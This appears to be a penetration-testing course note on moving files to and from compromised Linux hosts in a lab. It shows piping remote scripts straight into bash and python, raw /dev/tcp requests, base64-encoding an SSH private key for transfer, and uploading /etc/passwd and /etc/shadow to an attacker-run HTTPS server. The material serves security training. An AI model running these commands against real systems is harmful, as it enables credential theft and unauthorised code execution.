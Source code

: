 ```yaml
---
title: File Transfer - Linux
draft: false
tags:
---
```


# Download to Linux
## Base64



First use md5sum to check the file we want to transfer:

```shell-session
[!bash!]$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

Now base64 encode the target:

```shell-session
[!bash!]$ cat id_rsa |base64 -w 0;echo

LS0tLS1CRU<snip>
```

On target system, decode base64 string:

```shell-session
[!bash!]$ echo -n 'LS0tLS1<snip>' | base64 -d > id_rsa
```

After transferring, confirm the content with md5sum:

```shell-session
[!bash!]$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

## wget


```shell-session
[!bash!]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## cURL


```shell-session
[!bash!]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```


## Fileless

We don't have to download. We can use the memory. 
### Fileless cURL

```shell-session
[!bash!]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Fileless wget

```shell-session
[!bash!]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```

## Bash

First connect to the target webserver:

```shell-session
[!bash!]$ exec 3<>/dev/tcp/10.10.10.32/80
```

Send http get request:

```shell-session
[!bash!]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```


Print the response:

```shell-session
[!bash!]$ cat <&3
```

## SSH

```shell-session
[!bash!]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload to Linux

Sometimes we need to upload files from our target machine to attack host. 

## Upload Server

Let's see how we can configure uploadserver module to use HTTPs. 

Spin up Web server:

```shell-session
[!bash!]$ sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Now we will create a certificate:

```shell-session
[!bash!]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

Let's start a web server:

```shell-session
[!bash!]$ mkdir https && cd https
```

```shell-session
[!bash!]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files:

```shell-session
[!bash!]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Python

For Python3:

```shell-session
[!bash!]$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

For Python2:

```shell-session
[!bash!]$ python2.7 -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## PHP

```shell-session
[!bash!]$ php -S 0.0.0.0:8000

[Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

## Ruby

```shell-session
!bash!]$ ruby -run -ehttpd . -p8000

[2022-05-23 09:35:46] INFO  WEBrick 1.6.1
[2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

## SCP

```shell-session
[!bash!]$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/

htb-student@10.129.86.90's password: 
passwd    
```

